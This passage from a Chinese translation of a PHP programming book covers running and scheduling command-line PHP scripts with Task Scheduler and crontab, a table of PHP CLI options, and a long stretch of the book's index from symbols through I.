UNIX 命令 cat 在终端窗口中显示文件的内容——在这里，即名为 normal 的签名文件。

### 调度命令行 PHP 脚本

由于命令行脚本不需要来自 Web 浏览器的请求即可开始运行，因此可以安排它们在一天或一周的预定时间自动运行。调度脚本有许多用途，包括：

- 备份数据
- 定期清理数据库表和日志文件
- 向用户或管理员发送定期电子邮件，例如简报或报告
- 检索定期发布的数据，例如 RSS 订阅源

在 Windows 上调度命令行 PHP 脚本很简单：

- 1. 在脚本所在的同一文件夹中为您的 PHP 脚本创建一个批处理文件，如先前在“运行命令行 PHP 脚本”中所述。
- 2. 单击“开始”菜单并选择“控制面板”。
- 3. 在“控制面板”窗口中，双击“计划任务”。
- 4. 双击“添加计划任务”。
- 5. 在向导中单击“下一步”，然后单击“浏览”。


- 6. 选择在第1步中创建的批处理文件，然后单击“打开”。
- 7. 选择是否要每天、每周、每月、只执行一次、在计算机启动时或在登录时执行任务。单击“下一步”。
- 8. 如果选择了每天、每周或每月，请选择任务的开始时间和频率。单击“下一步”。
- 9. 按提示输入密码。单击“下一步”。
- 10. 任务现已计划。单击“完成”关闭向导。

在类UNIX操作系统（包括Mac OS X和Ubuntu）上调度脚本涉及编辑名为_crontab_的文件。为此，请以要在其下运行计划任务的用户身份登录，然后键入：

```
crontab -e
```

这应该会在默认文本编辑器中打开您的_crontab_文件以进行编辑，例如_vi_或_emacs_。要调度作业（例如您的PHP脚本），您需要在_crontab_文件中添加一行。_crontab_行由以下字段组成（每个字段均由空白符分隔）：

- 启动作业的分钟（0-59）
- 启动作业的小时（0-23）
- 启动作业的日期（1-31）
- 启动作业的月份（1-12或jan-dec）
- 启动作业的星期（0-6，其中0=星期日，或sun-sat）
- 要运行的命令
- 对于每个日期/时间值，您可以使用以下运算符：

- 使用逗号（,）指定值列表（例如，"15, 30, 45"）。
- 使用连字符（-）指定值范围（例如，"1-6"）。
- 使用星号（*）指定所有可能的值。例如，在月份字段中使用*相当于使用1-12。

以下是_crontab_行示例：

```
15 23 * * 1,3,5 /home/joe/backup_databases.php
```

此行表示，“在周一、周三和周五晚上11:15运行脚本/home/joe/backup_databases.php。”

现在请添加您自己的crontab行，使用适当的日期/时间值和脚本路径。然后保存文件并退出编辑器。您的脚本将按预定时间定期运行。

## 附录D：从命令行使用PHP

确保您的脚本可由crontab所有者执行，并且在shebang行中包含命令行PHP引擎的路径，否则脚本将无法运行！

默认情况下，系统会将脚本的任何输出发送到crontab所有者的电子邮件地址（例如joe@localhost）。因为您可能不会查看此地址，所以您可以在crontab的第一行中指定另一个电子邮件地址：

```
MAILTO=joe@example.com
15 23 * * 1,3,5 /home/joe/backup_databases.php
```

如果您不想从脚本中接收任何电子邮件，请将其输出重定向到/dev/null：

```
15 23 * * 1,3,5 /home/joe/backup_databases.php > /dev/null
```

### 有用的命令行选项

命令行PHP引擎允许您设置影响其运行方式的各种选项。您可以通过键入以下内容获取完整列表：

```
php -h
```

以下是一些更常用的选项：

| 选项 | 描述 |
| :--- | :--- |
| -a | 以交互模式运行。这允许您一次运行一行PHP。键入一行PHP代码，按Enter/Return，然后查看结果。（不要忘记将代码包裹在<?php ... ?>标记中。） |
| -c path_to_ini_file | 使用自定义.ini配置文件，而不是正常的php.ini。 |
| -d name=value | 设置自定义配置指令。 |
| -i | 相当于在脚本中调用phpinfo()。在终端窗口中显示配置信息。 |
| -l script_filename | 检查提供的脚本文件的语法错误，而不实际运行脚本。 |
| -m | 显示所有内置和已加载的PHP和Zend模块列表。 |
| -r php_code | 运行一行PHP代码。您不需要包含<?php ... ?>标记。（确保将代码用单引号而不是双引号包裹，以防止shell本身对代码中的任何PHP变量执行变量替换。） |
| -s script_filename | 以HTML编码、语法高亮的PHP代码输出脚本文件的内容。 |
| -v | 显示命令行PHP引擎的版本。 |
| --ini | 显示已加载配置文件的路径，以及其他配置文件路径。 |

您可以在命令行中在 `php` 或 `php.exe` 之后传递这些选项。例如：

```
$ php -d display_errors=Off myscript.php
```

如果您已使用shebang行使脚本可执行，请改为将选项放在shebang中：

```
#!/usr/bin/php -d display_errors=Off
<?php
// Script code here
?>
```

### 总结

命令行脚本编写曾经是传统shell环境和脚本语言（例如Windows命令行解释器、Bash、Tcl和Perl）的天下。然而，随着PHP作为Web脚本语言日益成熟和流行，它开始在命令行领域占据一席之地。尽管也许不如其更成熟的同类语言那样普遍或适合命令行任务，但PHP提供了强大的功能和灵活性，并且正在越来越多的计算机上默认安装。如果您已经使用PHP开发了Web应用程序，并且需要编写一些命令行脚本来与应用程序交互，那么它无疑是一个绝佳的选择。

# 符号

- $（美元符号），用于在模式匹配中指定位置，549
- $_COOKIE，超全局数组，277
- $_FILES，超全局数组，257–258
- $_GET，超全局数组，230
- $_POST，超全局数组，230
- $_REQUEST，超全局数组，230
- $_SERVER，超全局数组，494–496
- $_SESSION[ ]，超全局数组，283, 289
- %（求模），35
- &（AND）
  - PHP按位运算符，42
  - 用于设置配置指令值，720
- &&（and），PHP逻辑运算符，46
- []（方括号）
  - 添加数组元素，104–105
  - 处理HTML表单中的多值字段，236
- ^（插入符号），用于在模式匹配中指定位置，549
- ^（XOR），PHP按位运算符，43
- {}（花括号）
  - 编码标准，630
  - 用于在字符串中包含复杂表达式，75–76
  - 用于编写函数，145
- |（OR），PHP按位运算符，42
- |（竖线），用于匹配替代模式，548
- ||（or），PHP逻辑运算符，46
- ~（NOT）
  - PHP按位运算符，43
  - 用于设置配置指令值，720
- +（加法），PHP算术运算符，41
- <（小于），PHP比较运算符，44
- <<（左移），PHP按位运算符，43
- <=（小于或等于），PHP比较运算符，44
- <=>（NULL安全版的等于），MySQL比较运算符，383–384
- =（等于），PHP赋值运算符，42
- !=（不等于），PHP比较运算符，44
- ==（等于），PHP比较运算符，44
- !==（不完全等于），PHP比较运算符，44
- ===（完全等于），PHP比较运算符，44
- >（大于），PHP比较运算符，44
- >=（大于或等于），PHP比较运算符，44
- >>（右移），PHP按位运算符，43
- \（反斜杠），用于转义特殊字符，542–543
- .（连接运算符），46–47
- /（除法），PHP算术运算符，35
- “（双引号），用于字符串语法，74
- !（感叹号），用于在模式匹配中指定位置，549
- !（not），PHP逻辑运算符，46
- !（NOT），用于设置配置指令值，720
- ‘（单引号），用于字符串语法，74–75
- /（斜杠），用于正则表达式语法，543
- -（减法），PHP算术运算符，35

## A

- 抽象类，OOP，200–204
- 抽象方法，OOP，200–204
- Access（Microsoft），763
- Active Server Pages（ASP），5
- 加法（+），PHP算术运算符，41
- 加法颜色模型，508
- 别名，用于简化查询，381–382
- allow_url_fopen，配置指令，737
- allow_url_include，配置指令，737
- 替代PHP缓存（APC），9
- 锚点，用于在指定位置进行模式匹配，548–550


## AND (&)

- AND (&)
- PHP 位运算符，42
- 使用它设置配置指令值，720
- and (&&)，PHP 逻辑运算符，46
- AND，布尔运算符，384
- and，PHP 逻辑运算符，46
- 匿名函数
- 创建，154-155
- 按长度对单词排序的示例，155-158
- Apache Web 服务器
- .htaccess 文件，719
- 在 Mac OS X 上安装 PHP，17-18
- 在 Ubuntu 上安装 PHP，12, 14
- 在 Windows 上安装 PHP，15-16
- 测试，19-20
- APC (替代 PHP 缓存)，9
- API (应用程序编程接口)，763
- appendChild()，在 XML 文档中移动元素，606
- 应用程序逻辑，与表现逻辑分离，660-661
- 应用程序编程接口 (API)，763
- 应用程序质量。参见高质量应用程序
- 应用程序安全。另请参阅安全
- 检查输入与安全，641-643
- 编码输出与安全，641, 643-644
- 架构，数据库，338-339
- 绘制弧，515-516
- 参数
- 函数接受，141
- 用于检查方法参数的提示，180-182
- 与参数相比，146
- 从命令行传递到脚本，767-768
- 算术运算符，41
- array()，102-103
- array_merge()，135-136
- array_multisort()，124-128
- array_pop()，129-130
- array_push()，128-129
- array_shift()，128-130
- array_slice()，107-108
- array_splice()，129-134
- array_unshift()，128-130
- 数组
- 访问元素，103
- 在开头和结尾添加/删除元素，129-130
- 通常添加/删除元素，128-129
- 在中间添加/删除元素，130-134
- 结构，102
- 更改元素，104-105
- 转换为变量列表，137-138
- 转换为/从字符串，136-137
- 计算元素数量，108-109
- 创建，102-103
- 练习解答，678-683
- 练习，139
- 从数组中提取元素范围，107-108
- foreach() 用于更改值，115-116
- foreach() 用于遍历键和值，114-115
- foreach() 用于遍历值，114
- 遍历，113-114
- 操作，121
- 合并，134-136
- 多维。参见多维数组
- 多重排序，124-128
- 排序选项，121
- 使用 print_r() 输出整个数组，105-107
- 概述，101-102
- 使用 preg_grep() 搜索数组，556
- 使用 ksort() 和 krsort() 排序关联数组键，123
- 使用 asort() 和 arsort() 排序关联数组，122-123
- 使用 sort() 和 rsort() 排序索引数组，121-122
- 逐步遍历，109-113
- 摘要，138
- arsort()，排序关联数组，122-123
- asort()，排序关联数组，122-123
- ASP (Active Server Pages)，5
- ASP.NET，5
- 断言，548
- 赋值运算符，41-42
- 关联数组
- 概述，102
- 使用 ksort() 和 krsort() 排序键，123
- 使用 asort() 和 arsort() 排序，122-123
- Atom 源，573
- 属性，HTML 表单，222
- 属性，XML
- 在 XML 文档中更改，603-605
- 概述，578
- 在 XML 文档中使用，574

- authenticate()，418
- 身份验证
- 网站会员区与，418
- 不要对其使用查询字符串，268
- auto_detect_line_endings，配置指令，737

## B

- 反斜杠 (\\)，用于转义特殊字符，542-543
- 反向引用，模式匹配与，547-548
- basename()，299
- 以二进制模式处理文件，301-302
- BINARY 属性，排序规则与，369
- 位运算符
- 概述，42-43
- 使用它设置配置指令值，720
- 黑名单，检查输入与，642-643
- break 语句，用于跳出循环，64
- 浏览器，检测访问者浏览器的脚本，448-449
- 按钮，HTML 表单上，226-227
- 按引用传递，传递参数，159。另请参阅引用
- 按值传递，传递参数，158

## C

- C 编译器，用于编译 PHP，23-24
- __call()
- 创建包装器字符串类的示例，188-191
- 使用它重载方法调用，187
- 回调函数，用于替换文本，560
- 调用函数，142-144
- 调用方法，175
- __callStatic()，重载方法，192
- 脱字符 (^)，指定模式匹配中的位置，549
- 区分大小写
- 字符串函数与，88-89
- 变量名与，34
- 强制转换，通过它更改类型，38-40
- 捕获异常，654
- CHAR 数据类型，MySQL，346-347
- 字符类，用于模式匹配，544-545
- 字符数据类型，369
- 字符
- 在字符串中访问，78
- 在查询字符串中允许，269
- 匹配文字字符，542-543
- 匹配多个字符，545-546
- 使用字符类匹配，544-545
- 读取/写入字符串，304-305
- strpbrk() 用于查找字符集，81
- strtr() 用于翻译，87
- chdir()，用于更改当前目录，319-320
- 复选框，HTML 表单上，226
- checkdate()，用于检查日期值，481
- 检查输入，应用程序安全与，641-643
- 子类
- 创建示例，193-196
- 概述，192
- 子元素，XML，578
- chmod()，用于更改文件权限，314-315
- 绘制圆，515
- 类常量，173-174
- 类
- 抽象，200-204
- 自动加载类文件，212-213
- 创建，168-169
- 创建异常类，655
- 用于日期和时间，487-488
- 确定对象的类，215-216
- 封装与，182-183
- 创建父类和子类的示例，193-196
- 创建包装器字符串类的示例，188-191
- 最终类阻止继承和重写，199-200
- 模块化代码与，620
- 在父类中重写方法，196-198
- 概述，167
- 保留父类功能，198-199
- 类，成员记录查看器
- DataObject 类，388-390
- LogEntry 类，394-395
- Member 类，390-394
- 客户端-服务器数据库，339
- closedir()，用于关闭目录，317
- 关闭文件，303

## code

- 代码
- 自动化代码测试，666–667
- 在代码中避免重复，142
- 检查编辑器代码，330
- 类名标准，168
- 一致性标准，630–631
- 代码块，缩进约定，630
- 代码复用。另请参阅 PEAR (PHP 扩展和应用程序库)
- 模块化代码与，620
- 使用 PEAR 进行，441
- ColdFusion，6
- 排序规则，字符数据类型与，369
- 颜色
- 创建图像时分配，510–511
- 色彩理论，508
- 列
- ENUM 数据类型与，370–371
- 在关系数据库中，341
- 复合赋值运算符，42
- 命令行模式，PHP
- 创建交互式脚本，768–770
- 选项，772–773
- 概述，4, 765–766
- 将参数传递给脚本，767–768
- 运行脚本，766–767
- 调度脚本，770–772
- 命令行工具，MySQL，349
- 逗号分隔值 (CSV) 文件，309–310
- 注释
- 单行和多行，29–30, 632
- 编写良好，632–633
- common.inc.php
- 成员记录查看器与，387
- 会员注册应用程序与，408–409
- 网站会员区与，420–421
- 比较运算符
- MySQL，381–382
- PHP，43–44
- 编译 PHP 与预编译，23–24
- 复杂表达式，在字符串中包含，75–76
- Cookie 的组件，274–275
- 复合数据类型，36
- 压缩格式，图像，509
- 计算机图形，507
- 连接运算符 (.)，46–47
- config.php 文件，用于成员记录查看器，386–387
- 配置指令
- 用于数据处理，731
- 用于错误处理，647–648, 727
- 用于扩展，737
- 用于文件上传，736
- 用于 fopen()，736–737
- 设置方法，719–720
- 用于路径，734
- 用于会话，291
- 配置 PHP。参见 PHP 配置
- const 关键字，173–174
- 常量
- 类常量，173–174
- 定义，33
- 构造函数，用于对象，209–210
- 联系表单脚本，501–505
- continue 语句，用于跳过循环迭代，64–65
- 控制流结构，631
- 控件，HTML 表单
- 创建，225
- 用于处理空字段，235–236
- 转换规格，格式字符串，89
- Cookie
- 在脚本中访问，277
- 组件，274–275
- 记住用户信息的示例，278–282
- 概述，274
- 删除，278
- 设置，276
- 坐标系统，用于绘制形状，508–509
- copy()，316
- 复制文件，316
- count()
- 计算数组中的元素，108–109
- 汇总查询数据，376–377
- CPU，设置资源限制，727
- CREATE DATABASE 命令，353
- CREATE TABLE 命令，354
- create_function()，用于匿名函数，155, 157
- createFile()，333–334
- 跨平台支持
- 使用 PHP 的原因，5
- SQLite 特性，758
- 跨站脚本攻击 (XSS)，642
- CSS，用于时尚页面，25–26
- CSV (逗号分隔值) 文件，309–310
- curdate()，384


花括号 ({})。参见 {}（花括号）
current(), 110

## D

### 数据
- 在查询字符串中访问，270–274
- 添加到 MySQL 表中，355
- 用于存储的数组，101
- 决定如何存储，338
- 从 MySQL 表中删除，358
- 使用 MySQL 进行操作。参见 MySQL，数据操作
- 用于处理的 PHP 配置，731–734
- 对文件数据的随机访问，312
- 读取 MySQL 表中的数据，356–357, 361–364
- 读取/写入会话数据，283
- 使用 MySQL 检索。参见 MySQL，数据检索
- 更新 MySQL 表中的数据，357

### 数据，表单
- 捕获，230
- 示例：编写表单处理程序，231–234
- 用于发送到服务器的 get 和 post 方法，229
- 安全处理，234

### 数据处理，PHP 配置和，731–734

### 数据存储，用于的数组，101

### 数据类型
- 通过强制转换更改类型，38–40
- 更改变量类型，38
- 已定义，33
- 弱类型，36
- 概述，35–36
- 测试变量类型，36–38

### 数据类型，MySQL
- 日期和时间，345
- 数值，344–345
- 概述，344
- 字符串，346–347

### 数据库管理系统 (DBMS)，338。另请参见 数据库

### 数据源名称 (DSN)，360

### 数据库
- 架构，338–339
- 选择，340
- dbm 风格，761
- 决定如何存储数据，338
- 练习解答，698–699
- 练习，366
- PHP 支持的其他数据库列表，764
- 模型，339–340
- MySQL。参见 MySQL
- ODBC，763–764
- Oracle，762
- 概述，337
- PostgreSQL，759–761
- 关系型。参见 RDBMS（关系型数据库管理系统）
- 设置示例，367–369
- SQLite，757–759
- 总结，365–366

### DataObject 类，成员记录查看器，388–390

### date()
- 格式化日期字符串，478–479
- 格式化时间字符，479–480
- 与成员注册应用程序，416

### 日期字符串，格式化，478–481

### 日期和时间
- 检查日期值，481
- 相关类，487–488
- 创建时间戳，473–475
- 示例：按天计算年龄，483–487
- 从时间戳中提取日期和时间值，475–477
- 格式化日期字符串，478–481
- 获取当前日期和时间，472
- 与微秒，481–483
- MySQL 数据类型，345
- 概述，472
- 与时间戳，472

### DateTime 类，487–488

### DateTimeZone 类，487–488

### DB2 数据库，763

### DBA 抽象层，支持 dbm 风格数据库，761

### 数据库管理系统 (DBMS)，338。另请参见 数据库

### dbm 风格，761

### 决策
- 用于备选选择的 else 语句，54
- 示例：使用其显示问候语，57–58
- 示例：信鸽模拟器，66–70
- 练习解答，674–677
- 练习，72
- 用于简单决策的 if 语句，52–53
- 概述，51
- 相关语句，52
- 总结，72
- 用于多次测试单个表达式的 switch 语句，55–56
- 用于紧凑代码的三元运算符 (?) ，56–58

### 声明属性，170

### 声明变量，34–35

### 默认值，函数，147–148

### default_socket_timeout，配置指令，737

### delete()，向 Member 类添加删除方法，428

### DELETE 语句
- 向 LogEntry 类添加删除方法，430

### 从 MySQL 表中删除数据，358

### 删除文件，316

### 删除记录，使用 PHP 脚本，407

### 分隔符，字符串，76–77

### 依赖项，PEAR 包与，447

### 析构函数，对象，210–211

### 指令。参见 配置指令

### 目录
- 更改当前目录，319–320
- 创建/删除，320
- 区分目录文件和普通文件，322
- 示例：列出目录项，317–319
- 示例：遍历目录层次结构，323–325
- 函数，319
- 获取目录路径，321
- 概述，317
- PHP 配置与，734–736
- 重置目录指针，319
- 了解，298
- 使用目录对象，321–322

### Directory 对象，321–322

### dirname()，用于获取目录路径，321

### display_errors，配置指令，647, 728

### displayEditForm()，显示文件内容以供编辑，332

### displayFileList()，显示要编辑的文件列表，331–332

### displayForm()，显示注册表单，415

### displayPageHeader()，文本编辑器，334

### DISTINCT 关键字，与 SELECT 结合使用以尽量减少查询中的重复，377–378

### 除法 (/)，PHP 算术运算符，35

### dl()，用于加载扩展，737

### DocBlocks，phpDocumentor 包，635

### DOCTYPE 声明，580–581

### 记录代码
- 示例：使用 phpDocumentor，636–640
- 概述，631–632
- 用于外部文档的 phpDocumentor，633–635
- 编写良好注释，632–633

### 文档，XML
- 向现有文档添加元素，600–602
- 更改属性和节点，603–605
- 使用 DOM 创建，595–599
- 使用 SimpleXML 创建，610–612
- 操作，599
- 在其中移动元素，605–606
- 解析，584
- 使用 DOM 读取，591–594
- 使用 SimpleXML 读取，608–610
- 从现有文档中删除元素，602–603
- 结构，575–576
- 有效，578–579
- 格式良好，576–577
- 写入/操作，589–590

### 美元符号 ($)，用于指定模式匹配中的位置，549

### DOM（文档对象模型）
- 向 XML 文档添加元素，600–602
- 更改 XML 文档的节点和属性，603–605
- 在 SimpleXML 和 DOM 对象之间转换，612
- 创建 XML 文档，595–599
- 操作 XML 文档，599
- 在 XML 文档中移动元素，605–606
- 概述，589–590
- 读取 XML 文档，591–594
- 从 XML 文档中删除元素，602–603

### DOM 类
- 方法，595
- 概述，590

### DOMDocument()，创建 DOM 文档，595

### 双引号 (")，在字符串语法中，74

### do...while 循环，60–61

### Exception 对象，654


## exceptions
- 异常。另见 错误处理
- 捕获异常，654
- 创建异常类，655
- 用于处理错误的异常对象，652-653
- 抛出异常，653-654
- 感叹号 (!)，在模式匹配中指定位置，549
- explode(), 字符串函数，136-137, 562-563
- 表达式。另见 正则表达式
  - 在字符串中包含复杂表达式，75-76
  - 概述，40
  - 作为函数调用的返回值，143
- 可扩展标记语言。另见 XML
  - (可扩展标记语言)
- 可扩展样式表语言 (XSL), 613-615
- extension_dir, 配置指令，738
- 扩展
  - 动态，737-739
  - 模块设置，739-756
  - 用于连接 ODBC 数据库的 ODBC 扩展，763

## F
- fclose(), 用于关闭文件，303
- feof(), 用于测试文件结束，307-308
- fgetc()
  - 一次读取一个字符，304
  - 与 feof() 配合使用，308
- fgetcsv(), 用于读取 CSV 文件，309-310
- fgets(), 用于一次读取一行，308-309
- 斐波那契数列
  - 使用递归创建，161-163
  - 使用 HTML_Table 包显示，452-454
- 字段
  - Cookie，275
  - 在关系型数据库中，341
- 字段，HTML 表单
  - 为空，234-236
  - 在 HTML 表单示例中，226-229
  - 多值，236
- file(), 用于将文件内容读入数组，310-311
- 文件句柄，300
- 文件大小，258-259
- 文件系统。另见 目录
  - 访问文件信息，298
  - 更改权限，314-315
  - 检查权限，315-316
  - 关闭文件，303
  - 复制、重命名和删除文件，316
  - 示例：命中计数器，305-307
  - 练习，335
  - 练习答案，696-697
  - 打开文件，300-302
  - 概述，297
  - 权限，313-314
  - 文件数据的随机访问，312
  - 读取 CSV 文件，309-310
  - 一次读取一行，308-309
  - 读取/写入整个文件，310-312
  - 读取/写入字符串，304-305
  - 读取/写入文件，303-304
  - 检索文件名，299
  - 总结，334-335
  - 测试文件结束，307-308
  - 与时间相关的文件函数，299
  - 了解文件和目录，298
  - 在 PHP 6 中处理 Unicode 文件，302-303
- 文件上传
  - 访问上传文件的信息，257-258
  - 创建，257
  - 示例脚本，260-264
  - 限制大小，258-259
  - PHP 配置和，736
  - 存储/使用上传的文件，259
- file_exists(), 用于获取文件信息，298
- file_get_contents(), 311-312
- file_put_contents(), 311-312
- file_uploads, 配置指令，736
- fileatime(), 与时间相关的文件函数，299
- filectime(), 与时间相关的文件函数，299
- filemtime(), 与时间相关的文件函数，299
- 文件名，检索，299
- fileperms(), 用于检查文件权限，316
- 文件
  - 访问其信息，298
  - 关闭，303
  - 复制、重命名和删除，316
  - 区分目录文件和普通文件，322
  - 打开，300-302
  - 文件数据的随机访问，312
  - 读取 CSV 文件，309-310
  - 读取/写入整个文件，310-312
  - 读取/写入，303-304
  - 检索文件名，299
  - 测试文件结束，307-308
  - 与时间相关的函数，299
  - 了解，298
  - 使用 Unicode，302-303
- 过滤，使用它检查输入，643
- final 类和方法，用于阻止继承和重写，199-200
- 浮点数
  - 将值转换为，39
  - printf() 精度说明符，93
- 文件夹。另见 目录
- 字体
  - 显示系统字体，532-533
  - 与图像一起使用的 TrueType 字体，533-534
- fopen()
  - 配置指令，736-737
  - 锁定打开的文件，312
  - 打开文件，300-302
- for 循环，61-63
- foreach()
  - 修改数组值，115-116
  - 示例：显示图书数组，119-121
  - 遍历数组键和值，114-115
  - 遍历数组值，114
  - 概述，113-114
- 外键，在关系型数据库中，343
- 表单控件。另见 控件，HTML 表单
- <form>...</form> 标记，222
- 格式字符串
  - 日期字符串，478-481
  - 通用格式化，89-90
  - 概述，89
  - printf() 用于交换参数，93-94
  - printf() 填充说明符，92
  - printf() 精度说明符，93
  - printf() 符号说明符，91
  - printf() 类型说明符，90-91
  - sprintf() 用于存储结果而非打印，94
- 格式化数字，98-99
- 格式化字符串，89
- 表单
  - 创建联系表单脚本，501-505
  - 示例：验证表单输入，564-570
  - HTML。另见 HTML 表单
  - Web。另见 Web 表单
- fpassthru(), 312
- fread()
  - 读取字符串，304
  - 与 feof() 配合使用，308
- FreeType2 库，533
- fseek(), 用于文件数据的随机访问，312-313
- ftell(), 用于文件数据的随机访问，312-313
- 函数调用，631
- 函数
  - 用于添加/删除数组元素，128
  - 调用，142-144
  - 用于大小写转换，88-89
  - 创建匿名，154-155
  - 定义参数，145-146
  - 目录，319
  - 示例：使用递归创建斐波那契数列，161-163
  - 示例：按长度排序单词，155-158
  - 练习答案，683-685
  - 练习，164
  - 全局变量，152-153
  - 用于操作数组元素，110
  - 与方法相比，174
  - 模块化代码和，620
  - MySQL，382-385
  - 可选参数和默认值，147-148
  - 概述，141
  - 传递引用给，159
  - 递归，160-161
  - 引用和，158-159
  - 从中返回引用，160
  - 从中返回值，148-150
  - SimpleXML，607, 612
  - 用于保持值的静态变量，153-154
  - 字符串 explode 和 implode 函数，136-137
  - 用于汇总查询数据，376-377
  - 总结，163-164
  - 类型测试，37
  - 有用性，142
  - 变量作用域和，150-152
  - 它们是什么，141-142
  - 使用变量函数，144-145
  - 编写自己的，145
- fwrite(), 用于将数据写入文件，304-305

## G
- __get(), 使用它重载属性访问，184-187
- get 方法
  - 使用它创建 HTML 表单，225
  - 将表单数据发送到服务器，229
- get_class(), 用于确定对象的类，215-216
- getdate()
  - 从时间戳中提取日期和时间值，475-476
  - 使用 UNIX 时间戳，299
- gettype(), 用于测试变量类型，36-37
- GIF
  - 图像格式，509
  - 输出，511-512
- 全局变量，152-153
- gmttime(), 473-474
- GMT (格林尼治标准时间)
  - 从 GMT 日期和时间值创建时间戳，473-474
  - 与 UTC 相比，472
- GNU，编码标准，631
- 大于 (>), PHP 比较运算符，44
- 大于或等于 (>=), PHP 比较运算符，44
- 贪婪匹配，546
- GROUP BY 子句，用于查询结果，378-379

## H
- 处理错误。另见 错误处理
- 硬盘，作为持久存储机制，297
- header(), 用于修改 HTTP 响应，493-494
- 标头
  - 电子邮件和，498-499
  - HTTP 请求标头，489-490
  - HTTP 响应标头，492
- heredoc 语法，用于分隔符，76-77
- 隐藏字段
  - 在 HTML 表单中，227, 249
  - 在多步 HTML 表单中，250
- 高质量应用程序
  - 允许脚本处理错误，648-651
  - 应用程序逻辑与表现逻辑分离，660-661
  - 自动化代码测试，666-667
  - 捕获异常，654
  - 检查输入，641-643
  - 为保持一致性的编码标准，630-631
  - 注释，632-633
  - 控制错误消息的发送位置，647
  - 创建异常类，655
  - 记录代码，631-632
  - 动态包含，625
  - 编码输出，643-644
  - 错误处理和，644
  - 错误级别，644-645
  - 示例：分离应用程序逻辑和表现逻辑，662-666
  - 示例：模拟宇宙飞船飞行，655-660
  - 示例：使用 phpDocumentor，636-640
  - 示例：使用 PHPUnit 测试，667-670
  - 用于处理错误的异常对象，652-653
  - 练习答案，716-718
  - 练习，672
  - 微调错误报告，651-652
  - 包含路径，623-625
  - 包含/要求文件，621-622
  - 仅包含/要求文件一次，622-623
  - 记录错误，647-648
  - 模块化代码，620
  - 用于避免冲突的命名空间，625-630
  - 概述，619
  - 用于外部文档的 phpDocumentor，633-635
  - 总结，671
  - 抛出异常，653-654
  - 触发错误，646-647
- 提示，检查方法参数，180-182
- 命中计数器，305-307
- .htaccess 文件，Apache 配置指令，719
- HTML (超文本标记语言)
  - 在其中嵌入 PHP，25-27
  - 与其中混合决策和循环，70-72
  - 发送 HTML 电子邮件，500-501
- HTML 表单，250-256
  - 访问上传文件的信息，257-258
  - 捕获表单数据，230
  - 创建，223-225
  - 创建文件上传表单，257
  - 创建 Web 表单，242
  - 其中的空字段，234-236
  - 示例：创建文件上传脚本，260-264


- 示例：创建交互式 Web 表单，242–249
- 示例：创建多步表单，250–256
- 示例：带多值字段的注册表单，237–242
- 示例：编写表单处理程序，231–234
- 练习参考答案，689–691
- 练习，265
- 表单字段，226–229
- 工作原理，222
- 限制文件上传大小，258–259
- 多值字段，236
- 概述，221–222
- 表单提交后重定向，264–265
- 表单数据的安全处理，234
- 在其中存储变量，249
- 存储/使用上传的文件，259
- 小结，265

### HTML 表格
- 使用 HTML_Table 包创建，450–452

### HTML_Common 包
- 450

### HTML_QuickForm 包
- 使用它检查输入，643
- 使用它创建 Web 表单，455
- 示例：按天计算年龄，483–487
- 示例：使用它的注册表单，462–469
- 安装，455
- 验证规则，460–462
- 使用它，455–460

### HTML_QuickForm_Renderer_Tageless 包
- 483–487

### HTML_Table 包
- 使用它创建 HTML 表格，450–452
- 示例：使用它显示斐波那契数，452–454

### htmlspecialchars()
- 用于编码输出，643

### HTTP（超文本传输协议）
- 修改响应，493–494
- 概述，488–489
- 请求，489–490
- 响应，490–493

### HTTP 标头
- 作为其一部分发送的 Cookie，274

### http_build_query()
- 用于创建查询字符串，270

### httpd.conf
- Apache 配置指令，719

### 超文本标记语言
- 另见 HTML（超文本标记语言）

### 超文本传输协议
- 另见 HTTP（超文本传输协议）

### idate()
- 从时间戳中提取日期/时间值，476–477

### 相同 (===)
- PHP 比较运算符，44

### 标识符
- 编码标准，631

### if 语句
- 用于简单决策，52–53

### ignore_repeated_errors
- 配置指令，727

### IIS（Internet Information 服务器）
- 23

### 图像字段
- 在 HTML 表单中，227

### imagearc()
- 用于绘制弧，515–516

### imagecolorallocate()
- 用于分配图像颜色，510–511

### imagecolorat()
- 用于获取颜色的调色板索引，526

### imagecopy()
- 用于复制图像，524–525

### imagecopymerge()
- 用于为图像添加透明度，527–528

### imagecreate()
- 用于创建图像，510

### imagecreatefrom...()
- 用于基于现有图像创建图像，521

### imagedestroy()
- 用于删除图像，512

### imageellipse()
- 用于绘制圆和椭圆，515

### imagefttext()
- 用于 TrueType 字体，533–534

### imagegif()
- 用于输出 GIF 图像，511–512

### imagejpeg()
- 用于输出 JPEG 图像，511–512

### imageline()
- 用于绘制线条，513–514

### imagepng()
- 用于输出 PNG 图像，511–512

### imagepolygon()
- 用于绘制多边形，516–517

### imagerectangle()
- 用于绘制矩形，514

### 图像
- 添加标准文本，531
- 创建时分配颜色，510–511
- 应用水印，523–525
- 颜色理论，508
- 计算机图形学，507
- 绘制图形的坐标系统，508–509
- 创建，510
- 绘制弧，515–516
- 绘制圆和椭圆，515
- 绘制单个像素，512–513
- 绘制线条，513–514
- 绘制多边形，516–517
- 绘制矩形，514
- 示例：显示系统字体，532–533
- 示例：使用 TrueType 字体显示文本，534–535
- 示例：绘制圆角矩形，517–520
- 练习参考答案，708–712
- 练习，537
- 操作，520
- 不透明度，527–528
- 打开现有图像，521–523
- 输出，511–512
- 概述，507
- 小结，536
- 缩略图，528–531
- 透明度，525–527
- 使用的 TrueType 字体，533–534
- 类型，509

### imagesetpixel()
- 用于绘制单个像素，512–513

### imagestring()
- 用于向图像添加文本，531

### implode()
- 字符串函数，137

### include()
- 用于包含文件，621–622

### 包含路径
- 623–625

### include_once()
- 用于仅包含文件一次，622–623

### include_path
- 配置指令，734

### 包含文件
- 动态包含，625
- 包含路径，623–625
- 仅一次，622–623
- 概述，621–622
- 编写模块化代码与，620

### 自增/自减运算符
- 44–45

### 索引数组
- 概述，102
- 获取最后一个元素，108–109
- 排序，121–122

### 索引
- 访问字符串中的字符，78
- 关系数据库，347–348

### 继承
- 示例：创建父类和子类，193–196
- 用于阻止的最终类和方法，199–200
- 覆盖父类中的方法，196–198
- 概述，192–193
- 保留父类功能，198–199

### ini_set
- 用于设置配置指令，720

### 初始化变量
- 数组变量，104–105
- 概述，35

### INSERT 命令，MySQL
- 356

### insertBefore()
- 用于在 XML 文档中移动元素，605–606

### 插入记录
- 使用 PHP 脚本，403–405

### install 命令，PEAR 包
- 446–447

### 安装 PHP
- 另见 PHP 安装/设置

### 整数
- 将值转换为，39

### 集成测试
- 666

### 与外部世界的交互
- 日期和时间。另见 日期和时间
- 电子邮件，497–501
- 示例：创建联系表单脚本，497–501
